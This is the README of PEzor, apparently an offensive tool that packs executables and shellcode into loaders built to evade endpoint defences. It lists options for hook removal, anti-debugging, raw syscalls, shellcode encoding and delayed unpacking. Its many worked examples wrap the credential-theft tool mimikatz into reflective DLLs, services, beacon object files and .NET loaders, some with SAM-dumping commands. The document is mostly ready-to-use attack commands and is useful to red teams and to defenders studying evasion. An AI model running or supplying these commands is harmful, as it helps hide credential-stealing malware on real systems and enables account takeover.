 PEzor
=====

Read the blog posts here:

- [https://iwantmore.pizza/posts/PEzor.html](https://iwantmore.pizza/posts/PEzor.html)
- [https://iwantmore.pizza/posts/PEzor2.html](https://iwantmore.pizza/posts/PEzor2.html)
- [https://iwantmore.pizza/posts/PEzor3.html](https://iwantmore.pizza/posts/PEzor3.html)
- [https://iwantmore.pizza/posts/PEzor4.html](https://iwantmore.pizza/posts/PEzor4.html)

```raw
 ________________
< PEzor!! v3.1.0 >
 ----------------
      \                    / \  //\
       \    |\___/|      /   \//  \\
            /0  0  \__  /    //  | \ \
           /     /  \/_/    //   |  \  \
           @_^_@'/   \/_   //    |   \   \
           //_^_/     \/_ //     |    \    \
        ( //) |        \///      |     \     \
      ( / /) _|_ /   )  //       |      \     _\
    ( // /) '/,_ _ _/  ( ; -.    |    _ _\.-~        .-~~~^-.
  (( / / )) ,-{        _      `-.|.-~-.           .~         `.
 (( // / ))  '/\      /                 ~-. _ .-~      .-~^-.  \
 (( /// ))      `.   {            }                   /      \  \
  (( / ))     .----~-.\        \-'                 .~         \  `. \^-.
             ///.----..>        \             _ -~             `.  ^-`  ^-_
               ///-._ _ _ _ _ _ _}^ - - - - ~                     ~-- ,.-~
                                                                  /.-~
---------------------------------------------------------------------------
```

<!-- toc -->
* [Installation](#installation)
* [Usage](#usage)
<!-- tocstop -->

<!-- install -->
# Installation
The `install.sh` is designed to work on a Kali Linux distro.
```sh-session
$ git clone https://github.com/phra/PEzor.git
$ cd PEzor
$ sudo bash install.sh
$ bash PEzor.sh -h
```

# Upgrading from v2.x.x

The `PATH` variable has to be updated to use a specific commit of [Donut](https://github.com/TheWover/donut)! Check the updated `install.sh` script.

<!-- installstop -->

<!-- usage -->
# Usage
* [`PEzor -h`](#PEzor-help)
* [`PEzor <EXECUTABLE> [donut args...]`](#PEzor-executable)
* [`PEzor <SHELLCODE>`](#PEzor-shellcode)
<!-- usagestop -->

<!-- pezor-help -->
## `PEzor help`

display help for PEzor

```
USAGE
  $ PEzor help
```
<!-- pezor-helpstop -->

<!-- pezor-executable -->
## `PEzor <EXECUTABLE>`

Pack the provided executable into a new one

```
USAGE
  $ PEzor [options...] <EXECUTABLE> [donut args...]

# PEzor [options...] <EXECUTABLE> [donut args...]

OPTIONS
  -h                        Show usage and exits
  -32                       Force 32-bit executable
  -64                       Force 64-bit executable
  -debug                    Generate a debug build
  -unhook                   User-land hooks removal
  -antidebug                Add anti-debug checks
  -syscalls                 Use raw syscalls [64-bit only] [Windows 10 only]
  -sgn                      Encode the generated shellcode with sgn
  -text                     Store shellcode in .text section instead of .data
  -rx                       Allocate RX memory for shellcode
  -self                     Execute the shellcode in the same thread
  -sdk=VERSION              Use specified .NET Framework version (2, 4, 4.5 (default))
  -sleep=N                  Sleeps for N seconds before unpacking the shellcode
  -format=FORMAT            Outputs result in specified FORMAT (exe, dll, reflective-dll, service-exe, service-dll, dotnet, dotnet-createsection, dotnet-pinvoke)
  [donut args...]           After the executable to pack, you can pass additional Donut args, such as -z 2

EXAMPLES
  # 64-bit (self-inject RWX)
  $ PEzor.sh -unhook -antidebug -text -self -sleep=120 mimikatz/x64/mimikatz.exe -z 2 -p '"log c:\users\public\mimi.out" "token::whoami" "exit"'
  # 64-bit (self-inject RX)
  $ PEzor.sh -unhook -antidebug -text -self -rx -sleep=120 mimikatz/x64/mimikatz.exe -z 2 -p '"log c:\users\public\mimi.out" "token::whoami" "exit"'
  # 64-bit (raw syscalls)
  $ PEzor.sh -sgn -unhook -antidebug -text -syscalls -sleep=120 mimikatz/x64/mimikatz.exe -z 2 -p '"log c:\users\public\mimi.out" "token::whoami" "exit"'
  # 64-bit (beacon object file)
  $ PEzor.sh -format=bof mimikatz/x64/mimikatz.exe -z 2 -p '"log c:\users\public\mimi.out" "token::whoami" "exit"'
  # 64-bit (beacon object file w/ cleanup)
  $ PEzor.sh -format=bof -cleanup mimikatz/x64/mimikatz.exe -z 2 -p '"log c:\users\public\mimi.out" "token::whoami" "exit"'
  # 64-bit (reflective dll)
  $ PEzor.sh -format=reflective-dll mimikatz/x64/mimikatz.exe -z 2 -p '"log c:\users\public\mimi.out" "token::whoami" "exit"'
  # 64-bit (service exe)
  $ PEzor.sh -format=service-exe mimikatz/x64/mimikatz.exe -z 2 -p '"log c:\users\public\mimi.out" "token::whoami" "exit"'
  # 64-bit (service dll)
  $ PEzor.sh -format=service-dll mimikatz/x64/mimikatz.exe -z 2 -p '"log c:\users\public\mimi.out" "token::whoami" "exit"'
  # 64-bit (dotnet)
  $ PEzor.sh -format=dotnet -sleep=120 mimikatz/x64/mimikatz.exe -z 2 -p '"log c:\users\public\mimi.out" "token::whoami" "exit"'
  # 64-bit (dotnet-pinvoke)
  $ PEzor.sh -format=dotnet-pinvoke -sleep=120 mimikatz/x64/mimikatz.exe -z 2 -p '"log c:\users\public\mimi.out" "token::whoami" "exit"'
  # 64-bit (dotnet-createsection)
  $ PEzor.sh -format=dotnet-createsection -sleep=120 mimikatz/x64/mimikatz.exe -z 2 -p '"log c:\users\public\mimi.out" "token::whoami" "exit"'
  # 32-bit (self-inject)
  $ PEzor.sh -unhook -antidebug -text -self -sleep=120 mimikatz/Win32/mimikatz.exe -z 2
  # 32-bit (Win32 API: VirtualAlloc/WriteMemoryProcess/CreateRemoteThread)
  $ PEzor.sh -sgn -unhook -antidebug -text -sleep=120 mimikatz/Win32/mimikatz.exe -z 2
  # 32-bit (Win32 API: VirtualAlloc/WriteMemoryProcess/CreateRemoteThread) and arguments for donut
  $ PEzor.sh -sgn -unhook -antidebug -text -sleep=120 mimikatz/Win32/mimikatz.exe -z 2 "-plsadump::sam /system:SystemBkup.hiv /sam:SamBkup.hiv"
```
<!-- pezor-executablestop -->

<!-- pezor-shellcode -->
## `PEzor <SHELLCODE>`

Pack the provided shellcode into an executable

```
USAGE
  $ PEzor <-32|-64> [options...] <SHELLCODE>

OPTIONS
  -h                        Show usage and exits
  -32                       Force 32-bit executable
  -64                       Force 64-bit executable
  -debug                    Generate a debug build
  -unhook                   User-land hooks removal
  -antidebug                Add anti-debug checks
  -syscalls                 Use raw syscalls [64-bit only] [Windows 10 only]
  -sgn                      Encode the provided shellcode with sgn
  -text                     Store shellcode in .text section instead of .data
  -rx                       Allocate RX memory for shellcode
  -self                     Execute the shellcode in the same thread [requires RX shellcode, not compatible with -sgn]
  -sleep=N                  Sleeps for N seconds before unpacking the shellcode
  -format=FORMAT            Outputs result in specified FORMAT (exe, dll, reflective-dll, service-exe, service-dll, dotnet, dotnet-createsection, dotnet-pinvoke)

EXAMPLES
  # 64-bit (self-inject RWX)
  $ PEzor.sh shellcode.bin
  # 64-bit (self-inject RX)
  $ PEzor.sh -unhook -antidebug -text -self -rx -sleep=120 shellcode.bin
  # 64-bit (self-inject)
  $ PEzor.sh -unhook -antidebug -text -self -sleep=120 shellcode.bin
  # 64-bit (raw syscalls)
  $ PEzor.sh -sgn -unhook -antidebug -text -syscalls -sleep=120 shellcode.bin
  # 64-bit (beacon object file)
  $ PEzor.sh -format=bof shellcode.bin
  # 64-bit (beacon object file w/ cleanup)
  $ PEzor.sh -format=bof -cleanup shellcode.bin
  # 64-bit (reflective dll)
  $ PEzor.sh -format=reflective-dll shellcode.bin
  # 64-bit (service exe)
  $ PEzor.sh -format=service-exe shellcode.bin
  # 64-bit (service dll)
  $ PEzor.sh -format=service-dll shellcode.bin
  # 64-bit (dotnet)
  $ PEzor.sh -format=dotnet shellcode.bin
  # 64-bit (dotnet-pinvoke)
  $ PEzor.sh -format=dotnet-pinvoke shellcode.bin
  # 64-bit (dotnet-createsection)
  $ PEzor.sh -format=dotnet-createsection shellcode.bin
  # 32-bit (self-inject)
  $ PEzor.sh -unhook -antidebug -text -self -sleep=120 shellcode.bin
  # 32-bit (Win32 API: VirtualAlloc/WriteMemoryProcess/CreateRemoteThread)
  $ PEzor.sh -sgn -unhook -antidebug -text -sleep=120 shellcode.bin'
```

_See code: [PEzor.sh](https://github.com/phra/PEzor/blob/master/PEzor.sh)_
<!-- pezor-shellcodestop -->
